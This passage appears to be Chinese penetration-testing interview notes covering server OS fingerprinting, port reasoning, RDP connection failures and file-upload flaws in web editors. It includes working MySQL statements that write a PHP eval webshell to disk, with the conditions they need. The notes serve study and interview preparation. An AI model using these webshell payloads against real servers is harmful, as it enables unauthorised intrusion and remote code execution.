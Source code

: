 

## 42-某某端口是什么意思？

## 43- 如何手工快速判断目标站是windows还是linux服务器？ 

```shell
# linux大小写敏感,windows大小写不敏感。
```



## 44- 为何一个mysql数据库的站，只有一个80端口开放？ 

```shell
#   更改了端口
#	站库分离
# 	3306端口不对外开放
```



## 45- 3389无法连接的几种情况 

```shell
# 没开放3389 端口
# 端口被修改
# 防护拦截
# 处于内网(需进行端口转发)
```

## 46-MySQL 怎么写shell

```shell
select '一句话' into outfile '路径'
select '一句话' into dumpfile '路径'
select '<?php eval($_POST[1]) ?>' into dumpfile '路劲.muma.php';
```



## 47-MySQL 写shell有那几个必要的条件？都是那些

```shell
# 写shell必要的有3个条件
	1-必须是root权限
	2-知道网站的绝对路径
	3-my.ini的配置文件中secure_file_priv函数配置必须为空
```



## 48-了解编辑器漏洞吗？

```shell
# 其实还是文件上传漏洞
	1- 	FCKeditor编辑器
	2-	EWEbeditor编辑器
	3-	DotNetTextBox编辑器
	4-	Kedit编辑器
	5-	Cute Editor 在线编辑器
#这个问题基本回答个两三个就可以
```
